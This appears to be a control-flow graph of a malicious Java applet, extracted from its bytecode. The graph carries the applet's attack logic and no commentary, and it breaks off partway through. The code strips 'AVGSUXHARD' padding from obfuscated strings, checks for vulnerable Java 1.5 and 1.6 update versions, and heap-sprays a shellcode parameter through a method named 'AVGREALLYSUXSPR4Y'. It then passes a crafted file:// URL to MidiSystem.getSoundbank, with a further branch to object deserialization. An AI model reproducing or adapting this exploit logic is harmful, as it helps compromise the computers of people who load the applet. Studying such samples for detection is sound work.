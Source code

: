 digraph "" {
    "r0 := @this: KAK.NED.sexxxy"
    "push \"AVGSUXHARDjAVGSUXHARDaAVGSUXHARDvAVGSUXHARDaAVGSUXHARD.AVGSUXHARDvAVGSUXHARDeAVGSUXHARDrAVGSUXHARDsAVGSUXHARDiAVGSUXHARDoAVGSUXHARDnAVGSUXHARD\""
    "r0 := @this: KAK.NED.sexxxy"->"push \"AVGSUXHARDjAVGSUXHARDaAVGSUXHARDvAVGSUXHARDaAVGSUXHARD.AVGSUXHARDvAVGSUXHARDeAVGSUXHARDrAVGSUXHARDsAVGSUXHARDiAVGSUXHARDoAVGSUXHARDnAVGSUXHARD\"";
    "push \"AVGSUXHARD\""
    "push \"AVGSUXHARDjAVGSUXHARDaAVGSUXHARDvAVGSUXHARDaAVGSUXHARD.AVGSUXHARDvAVGSUXHARDeAVGSUXHARDrAVGSUXHARDsAVGSUXHARDiAVGSUXHARDoAVGSUXHARDnAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"\""
    "push \"AVGSUXHARD\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r65"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r65";
    "load.r r65"
    "store.r r65"->"load.r r65";
    "push \"1.5.0_17\""
    "load.r r65"->"push \"1.5.0_17\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.5.0_18\""
    "load.r r65"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.5.0_19\""
    "load.r r65"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.5.0_20\""
    "load.r r65"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.5.0_21\""
    "load.r r65"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_11\""
    "load.r r65"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_12\""
    "load.r r65"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_13\""
    "load.r r65"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_14\""
    "load.r r65"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_15\""
    "load.r r65"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "ifcmpne.i push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"load.r r65";
    "push \"1.6.0_16\""
    "load.r r65"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r65"
    "push -1"->"ifcmpeq.i load.r r65";
    "push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""
    "ifcmpeq.i load.r r65"->"push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\"";
    "push \"AVGSUXHARDoAVGSUXHARDsAVGSUXHARD.AVGSUXHARDnAVGSUXHARDaAVGSUXHARDmAVGSUXHARDeAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"AVGSUXHARDwAVGSUXHARDiAVGSUXHARDnAVGSUXHARD\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"AVGSUXHARDwAVGSUXHARDiAVGSUXHARDnAVGSUXHARD\"";
    "push \"AVGSUXHARDwAVGSUXHARDiAVGSUXHARDnAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "push 47"
    "iflt return"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>"->"pop";
    "goto load.r r65"
    "pop"->"goto load.r r65";
    "goto load.r r65"->"load.r r65";
    "push \"1.6\""
    "load.r r65"->"push \"1.6\"";
    "push \"1.6\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 47"
    "push -1"->"ifcmpeq.i push 47";
    "ifcmpeq.i push 47"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>";
    "staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>"->"store.r r65";
    "new java.lang.StringBuilder"
    "store.r r65"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"AVGSUXHARDfAVGSUXHARDiAVGSUXHARDlAVGSUXHARDeAVGSUXHARD:AVGSUXHARD/AVGSUXHARD/AVGSUXHARD\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"AVGSUXHARDfAVGSUXHARDiAVGSUXHARDlAVGSUXHARDeAVGSUXHARD:AVGSUXHARD/AVGSUXHARD/AVGSUXHARD\"";
    "push \"AVGSUXHARDfAVGSUXHARDiAVGSUXHARDlAVGSUXHARDeAVGSUXHARD:AVGSUXHARD/AVGSUXHARD/AVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r65";
    "load.r r65"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARD\"";
    "push \"AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARDZAVGSUXHARD%AVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r65";
    "goto new java.net.URL"
    "store.r r65"->"goto new java.net.URL";
    "new java.net.URL"
    "goto new java.net.URL"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r65";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r65"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "load.r r0"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"AVGSUXHARDhAVGSUXHARDeAVGSUXHARDxAVGSUXHARDeAVGSUXHARDdAVGSUXHARD\""
    "load.r r0"->"push \"AVGSUXHARDhAVGSUXHARDeAVGSUXHARDxAVGSUXHARDeAVGSUXHARDdAVGSUXHARD\"";
    "push \"AVGSUXHARDhAVGSUXHARDeAVGSUXHARDxAVGSUXHARDeAVGSUXHARDdAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>";
    "push \"AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD\""
    "virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>"->"push \"AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD\"";
    "push \"AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD9AVGSUXHARD0AVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <KAK.NED.sexxxy: java.nio.IntBuffer[] AVGREALLYSUXSPR4Y(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <KAK.NED.sexxxy: java.nio.IntBuffer[] AVGREALLYSUXSPR4Y(java.lang.String,java.lang.String)>";
    "fieldput <KAK.NED.sexxxy: java.nio.IntBuffer[] mem>"
    "virtualinvoke <KAK.NED.sexxxy: java.nio.IntBuffer[] AVGREALLYSUXSPR4Y(java.lang.String,java.lang.String)>"->"fieldput <KAK.NED.sexxxy: java.nio.IntBuffer[] mem>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"
    "fieldput <KAK.NED.sexxxy: java.nio.IntBuffer[] mem>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "goto return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"goto return";
    "return"
    "goto return"->"return";
    "ifcmpeq.i push 47"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>";
    "staticinvoke <KAK.NED.sexxxy: java.lang.String repeat(char,int)>"->"store.r r65";
    "store.r r65"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"AVGSUXHARDfAVGSUXHARDiAVGSUXHARDlAVGSUXHARDeAVGSUXHARD:AVGSUXHARD/AVGSUXHARD/AVGSUXHARD\"";
    "push \"AVGSUXHARDfAVGSUXHARDiAVGSUXHARDlAVGSUXHARDeAVGSUXHARD:AVGSUXHARD/AVGSUXHARD/AVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r65";
    "load.r r65"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AVGSUXHARD$\\\"$AVGSUXHARD\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AVGSUXHARD$\\\"$AVGSUXHARD\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"\"";
    "push \"AVGSUXHARD$\\\"$AVGSUXHARD\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"AVGSUXHARD$\\\"\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r65";
    "iflt return"->"return";
    "ifcmpeq.i load.r r65"->"load.r r65";
    "push \"1.5.0\""
    "load.r r65"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0\""
    "load.r r65"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_01\""
    "load.r r65"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_02\""
    "load.r r65"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_03\""
    "load.r r65"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_04\""
    "load.r r65"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_05\""
    "load.r r65"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_06\""
    "load.r r65"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_07\""
    "load.r r65"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_08\""
    "load.r r65"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_09\""
    "load.r r65"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_10\""
    "load.r r65"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_11\""
    "load.r r65"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_12\""
    "load.r r65"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_13\""
    "load.r r65"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
